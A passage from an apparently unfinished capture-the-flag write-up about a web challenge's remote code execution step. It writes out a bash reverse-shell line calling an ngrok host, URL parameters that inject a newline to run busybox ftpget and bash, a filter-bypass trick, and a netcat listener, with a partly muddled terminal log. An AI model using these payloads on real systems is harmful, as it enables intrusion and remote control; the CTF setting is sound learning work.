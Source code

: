 
### Final

- points = 250
- status = unsolved

The last one! It's a [web challenge!](http://51.38.37.81:4043/)

I didnt do it so still according to [my G's](https://github.com/TargetRoot/CTF)

It was straightforward RCE but...for RCE you might need a VPS (idk If ngrok)

```
└──╼ $pip3 install pyftpdlib

└──╼ $echo 'bash -i >& /dev/tcp/tcp://6.tcp.ngrok.io:16211/4444 0>&1' > shell

└──╼ $sudo python -m pyftpdlib -p 21
[I 2022-09-04 15:15:50] concurrency model: async
[I 2022-09-04 15:15:50] masquerade (NAT) address: None
[I 2022-09-04 15:15:50] passive ports: None
[I 2022-09-04 15:15:50] >>> starting FTP server on 0.0.0.0:21, pid=8573 <<<

└──╼ $?user_inputs[0]=e&user_inputs[1]=a%0a&user_inputs[2]=busybox&user_inputs[3]=ftpget&user_inputs[4]=51383781&user_inputs[5]=1337
[4] 8906
[5] 8907
[6] 8908
bash: ?user_inputs[0]=e : commande introuvable
[7] 8909
[8] 8910
[3]   Fini                    user_inputs[1]=a%0a
[4]   Termine 127             ?user_inputs[0]=e
[7]-  Fini                    user_inputs[3]=ftpget
[8]+  Fini                    user_inputs[4]=51383781

└──╼ $?user_inputs[0]=e&user_inputs[1]=a%0a&user_inputs[2]=bash&user_inputs[3]=1337
[7] 8912
bash: ?user_inputs[0]=e : commande introuvable
[8] 8913
[9] 8914
[5]   Fini                    user_inputs[1]=a%0a
[6]   Fini                    user_inputs[2]=busybox
[7]   Termine 127             ?user_inputs[0]=e
[8]-  Fini                    user_inputs[1]=a%0a
[9]+  Fini                    user_inputs[2]=bash
```
In the paylaod `...[4]=51383781...` Is the target IP without the dots (avoid preg_match)


Before running the last command I had my listenner up

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35042
SSH-2.0-ssh2js1.4.0
```
I got a connection but It didnt live. I might update this later but seems it's the last step
